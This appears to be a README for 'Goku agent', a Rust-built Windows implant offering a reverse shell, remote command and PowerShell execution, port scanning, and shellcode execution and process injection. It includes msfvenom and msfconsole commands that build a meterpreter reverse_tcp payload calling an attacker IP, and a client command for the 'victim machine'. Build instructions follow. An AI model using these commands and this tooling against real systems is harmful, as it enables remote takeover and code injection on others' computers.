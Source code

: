 ## Goku agent

Allows to spawn a reverse shell without using cmd.exe permanently.

the cmd.exe is launch only if you make a request to the agent. The request is then launched into a dedicated thread of the process.

There are several commands that you can use:

* CMD your command
* PSH your command
* SCAN tcp ip port1 port2 port3
* ASM bytecode
* INJECT_SC PID bytecode
* PIPES_LS

That way you can launch a meterpreter directly into memory.

On your linux machine:
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=192.168.0.46 LPORT=4443 -f hex
$ sudo msfconsole
msf5> use windows/x64/shell_reverse_tcp
msf5> to_handler
```

On your windows machine:
```
$ .\goku_tcp -u 192.168.0.46 -p 4444
```

Then you can use the asm command to spawn a meterpreter on the victim machine.

## Build
To install rust and cargo:
```
$ curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
$ source $HOME/.cargo/env
$ source ~/.profile (if using zsh, write into ~/.zshrc: export PATH="$HOME/.cargo/bin:$PATH")
$ rustup toolchain install nightly
$ cargo -V
$ rustc -V
```

to cross compile:
```
$ sudo apt-get install gcc-mingw-w64-x86-64 g++-mingw-w64-x86-64
$ rustup toolchain install stable-x86_64-pc-windows-gnu
$ rustup toolchain install nightly
$ rustup default nightly
$ rustup target add x86_64-pc-windows-gnu
```

Then:
```
cargo build  --target x86_64-pc-windows-gn
```